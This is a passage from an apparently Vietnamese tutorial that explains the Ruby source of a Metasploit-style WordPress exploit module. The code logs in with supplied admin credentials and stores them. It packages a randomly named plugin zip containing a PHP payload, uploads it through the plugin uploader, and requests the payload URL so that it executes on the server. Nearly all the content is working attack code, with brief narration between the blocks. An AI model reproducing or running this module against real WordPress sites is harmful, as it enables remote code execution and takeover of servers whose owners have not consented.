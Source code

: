 ```ruby

  def password
    datastore['PASSWORD']
  end
```
Hàm sau dùng để tạo plugin và đóng gói plugin cho wordpress. Các thông tin được khai báo trong plugin này đều được tạo ra ngẫu nhiên với REX: 

```ruby
def generate_plugin(plugin_name, payload_name)
    plugin_script = %Q{<?php
/**
 * Plugin Name: #{plugin_name}
 * Version: #{Rex::Text.rand_text_numeric(1)}.#{Rex::Text.rand_text_numeric(1)}.#{Rex::Text.rand_text_numeric(2)}
 * Author: #{Rex::Text.rand_text_alpha(10)}
 * Author URI: http://#{Rex::Text.rand_text_alpha(10)}.com
 * License: GPL2
 */
?>}

    zip = Rex::Zip::Archive.new(Rex::Zip::CM_STORE)
    zip.add_file("#{plugin_name}/#{plugin_name}.php", plugin_script)
    zip.add_file("#{plugin_name}/#{payload_name}.php", payload.encoded)
    zip
  end
```
Sau khi các file cần thiết và file chứa payload được tạo ra. Module Rex:Zip sẽ đóng gói plugin thành một file nén định dạng zip để gửi lên server:

Hàm exploit là sẽ phần thân chính của module. Thực hiện các bước để kiểm tra và tạo phiên đăng nhập vào wordpress. Sau đó tạo ra plugin và thực hiện việc tải plugin đó lên máy chủ dịch vụ wordpress:

```ruby
def exploit
    fail_with(Failure::NotFound, 'The target does not appear to be using WordPress') unless wordpress_and_online?

    print_status("Authenticating with WordPress using #{username}:#{password}...")
    cookie = wordpress_login(username, password)
    fail_with(Failure::NoAccess, 'Failed to authenticate with WordPress') if cookie.nil?
    print_good("Authenticated with WordPress")
    store_valid_credential(user: username, private: password, proof: cookie)

    print_status("Preparing payload...")
    plugin_name = Rex::Text.rand_text_alpha(10)
    payload_name = "#{Rex::Text.rand_text_alpha(10)}"
    payload_uri = normalize_uri(wordpress_url_plugins, plugin_name, "#{payload_name}.php")
    zip = generate_plugin(plugin_name, payload_name)

    print_status("Uploading payload...")
    uploaded = wordpress_upload_plugin(plugin_name, zip.pack, cookie)
    fail_with(Failure::UnexpectedReply, 'Failed to upload the payload') unless uploaded

    print_status("Executing the payload at #{payload_uri}...")
    register_files_for_cleanup("#{payload_name}.php")
    register_files_for_cleanup("#{plugin_name}.php")
    register_dir_for_cleanup("../#{plugin_name}")
    send_request_cgi({ 'uri' => payload_uri, 'method' => 'GET' }, 5)
end
```
